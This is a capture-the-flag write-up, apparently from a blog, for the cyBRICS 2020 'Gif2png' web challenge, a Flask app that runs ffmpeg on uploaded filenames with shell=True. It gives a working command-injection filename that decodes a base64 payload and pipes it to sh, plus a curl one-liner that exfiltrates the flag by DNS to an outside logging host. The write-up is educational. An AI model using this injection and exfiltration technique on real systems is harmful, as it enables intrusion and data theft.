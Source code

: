 ```yaml
---
layout: post
title: "cyBRICS CTF 2020 - Gif2png"
description: "Resolution of the cyBRICS CTF challenge named Gif2png"
tags: [ctf,web,cybricsctf]
---
```


<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-00-0ede9e305950712e679e89bb1e99939bceb88e58ae733ccf1047f6dba0e458fb.jpg">

Gif2Png is an easy web challenge from `cyBRICS CTF 2020`, an interesting web challenge that teaches you `command injection` through image's filename.

The challenge had the following description/details: 

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-01-19a95b1d764ce4a33d90e54c311910ba49d3443274d8c46e9a2048f20a87b2fc.png">

A copy of the original web application's source code is available on: [gif2png.tar.gz](https://mega.nz/file/oMJnVAbR#qkUfgCsgjhkueLh9dOeKc_7Pm1BXzwacspLZxjvLB5Q)

The challenge web page:

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-02-bca1ccb08ee990ca148bb270822bcfd4eb521cf5b3954a923b153bb83e05be4c.png">

It seems that the web application slices the gif into frames and display them on the screen:

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-03-f19871cac5a882c348b311abdaaa4f860eb0fb5fc2fd43149313ba7c4d3ea066.png">

So now let's check the source code of the web application to understand how it is done.

This is the source code of the main file, named `main.py`:

```python
import logging
import re
import subprocess
import uuid
from pathlib import Path

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory
from flask_bootstrap import Bootstrap
import os
from werkzeug.utils import secure_filename
import filetype


ALLOWED_EXTENSIONS = {'gif'}

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['SECRET_KEY'] = '********************************'
app.config['MAX_CONTENT_LENGTH'] = 500 * 1024  # 500Kb
ffLaG = "cybrics{********************************}"
Bootstrap(app)
logging.getLogger().setLevel(logging.DEBUG)

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    logging.debug(request.headers)
    if request.method == 'POST':
        if 'file' not in request.files:
            logging.debug('No file part')
            flash('No file part', 'danger')
            return redirect(request.url)

        file = request.files['file']
        if file.filename == '':
            logging.debug('No selected file')
            flash('No selected file', 'danger')
            return redirect(request.url)

        if not allowed_file(file.filename):
            logging.debug(f'Invalid file extension of file: {file.filename}')
            flash('Invalid file extension', 'danger')
            return redirect(request.url)

        if file.content_type != "image/gif":
            logging.debug(f'Invalid Content type: {file.content_type}')
            flash('Content type is not "image/gif"', 'danger')
            return redirect(request.url)

        if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
            logging.debug(f'Invalid symbols in filename: {file.content_type}')
            flash('Invalid filename', 'danger')
            return redirect(request.url)

        if file and allowed_file(file.filename):
            filename = secure_filename(file.filename)
            file.save(os.path.join(app.config['UPLOAD_FOLDER'], file.filename))

            mime_type = filetype.guess_mime(f'uploads/{file.filename}')
            if mime_type != "image/gif":
                logging.debug(f'Invalid Mime type: {mime_type}')
                flash('Mime type is not "image/gif"', 'danger')
                return redirect(request.url)

            uid = str(uuid.uuid4())
            os.mkdir(f"uploads/{uid}")

            logging.debug(f"Created: {uid}. Command: ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"")

            command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
            command.wait(timeout=15)
            logging.debug(command.stdout)

            flash('Successfully saved', 'success')
            return redirect(url_for('result', uid=uid))

    return render_template("form.html")


@app.route('/result/<uid>/')
def result(uid):
    images = []
    for image in os.listdir(f"uploads/{uid}"):
        mime_type = filetype.guess(str(Path("uploads") / uid / image))
        if image.endswith(".png") and mime_type is not None and mime_type.EXTENSION == "png":
            images.append(image)

    return render_template("result.html", uid=uid, images=images)


@app.route('/uploads/<uid>/<image>')
def image(uid, image):
    logging.debug(request.headers)
    dir = str(Path(app.config['UPLOAD_FOLDER']) / uid)
    return send_from_directory(dir, image)


@app.errorhandler(413)
def request_entity_too_large(error):
    return "File is too large", 413


if __name__ == "__main__":
    app.run(host='localhost', port=5000, debug=True, threaded=True)
{% endhighlight %}
```

What caught my attention was the line 104:

```python
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

This can be very insecure because the web application is passing an user input to be executed as system command. (`file.filename`)

There's a small condition that checks for some characters on filename and blocks the upload:

```python
if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)) or ".." in file.filename:
  logging.debug(f'Invalid symbols in filename: {file.content_type}')
  flash('Invalid filename', 'danger')
  return redirect(request.url)
```

So now we need to exploit this weak point.

The very first thing we need to do is stop the actual ffmpeg command and execute another one, to do this we need to escape the `'` quotes and append another command.

I found a way to bypass the filename verification using double pipelines to execute my system command, the malicious filename will look something like this:

> `MALICIOUS_NAME'||MALICIOUS SYTEM COMMAND HERE||'`

```shell
ffmpeg -i 'uploads/MALICIOUS_NAME'||MALICIOUS SYTEM COMMAND HERE||' "uploads/{uid}/%03d.png\"
```

There's a final problem: how to inject system commands through filename and bypass the filename check? `Encoding the payload with base64, decoding and executing on the fly!`

> `echo d2hvYW1pO2lkO3NsZWVwIDEw|base64 -d|sh`

Unfortunatelly, the challenge server had a firewall blocking reverse shells and requests to the external resources through port 80.
So I came with the idea of exfiltrating the flag (inside the main.py) through DNS using `dnsbin.zhack.ca`:

> `flag=$(cat main.py|grep -wo cybrics{.*|base64|tr -d '=');curl $flag.a0325542a59398d0bda8.d.zhack.ca`

The flag is extracted from the main.py and sent through DNS using DNSBin, all we need to do is encode the above command as base64 and rename the file:

The encoded payload:

> `ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh`

The 2nd part:

> `echo ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh|base64 -d|sh`

The final filename:

> `nullarmor'||echo ZmxhZz0kKGNhdCBtYWluLnB5fGdyZXAgLXdvIGN5YnJpY3N7Lip8YmFzZTY0fHRyIC1kICc9Jyk7Y3VybCAkZmxhZy5iNDQ1YzMwODAxYTg4OTRhMzc0Ny5kLnpoYWNrLmNh|base64 -d|sh||'.gif`

Now we just renamed a gif file with the malicious filename and uploaded it on the Gif2png web application!

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-04-bab35abb8f097541da9a97cabfe9d2c07e8434155e5fe0063f2e406835b4ff16.png">

Done, after 5 seconds the base64 encoded flag will be sent through DNS!

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-04-bab35abb8f097541da9a97cabfe9d2c07e8434155e5fe0063f2e406835b4ff16.png">

# Flag:
``` cybrics{imagesaresocoolicandrawonthem}```

<img src="https://nullarmor.github.io/assets/ctf/cybrics/2020/gif2png/gif2png-06-0069647c11ff4ae14468d1673853c5adb6549af2350dfe82528b25e98fea8f07.png">
